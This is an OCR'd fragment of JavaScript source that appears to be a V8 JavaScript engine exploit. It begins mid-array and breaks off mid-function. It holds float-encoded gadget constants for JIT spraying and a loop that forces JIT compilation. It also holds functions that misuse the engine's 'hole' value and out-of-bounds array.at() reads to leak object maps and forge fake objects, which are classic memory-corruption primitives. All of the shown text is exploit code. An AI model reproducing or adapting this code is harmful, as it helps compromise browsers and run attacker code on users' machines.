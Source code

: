 ```javascript
        1.9711826272864685e-246,
        1.9711829003383248e-246,
        1.9710902863710406e-246,
        2.6749077589586695e-284];
};

for (let i = 0; i < 0x10000; i++) { f(); f(); f(); f(); } // This breaks my gadgets so I will just do this first...

const the = { hole: Object.leakHole() };

var packed_dbl_map = null;
var packed_dbl_props = null;
var fixed_dbl_map = null;

var packed_map = null;
var packed_props = null;
var fixed_map = null;

var before_arr = null;
var fake_arr = null;
var after_arr = null;

var elem_addr = null;

function leak_stuff(b) {
	if (b) 
	{
		let index = Number(b ? the.hole : -1);
		index |= 0;
		index += 1;

		let arr1 = [1.1, 2.2, 3.3, 4.4];
		let arr2 = [5.5, 6.6, 7.7, 8.8];
		let arr3 = [arr1, arr2];

		let packed_double_map_and_props = arr1.at(index * 4);
		let fixed_double_arr_map = arr1.at(index * 6);
		let arr2_elements_and_len = arr1.at(index * 12);

		return [
			packed_double_map_and_props, fixed_double_arr_map,
			arr2_elements_and_len, arr1, arr2, arr3
		];
	}
	return 0;
}

function weak_fake_obj(b, addr = 1.1) {
	if (b) {
		let index = Number(b ? the.hole : -1);
		index |= 0;
		index += 1;

		let arr1 = [0x1337, {}]
		let arr2 = [addr, 2.2, 3.3, 4.4];

		let fake_obj = arr1.at(index * 8);

		return [
			fake_obj,
			arr1, arr2
		];
```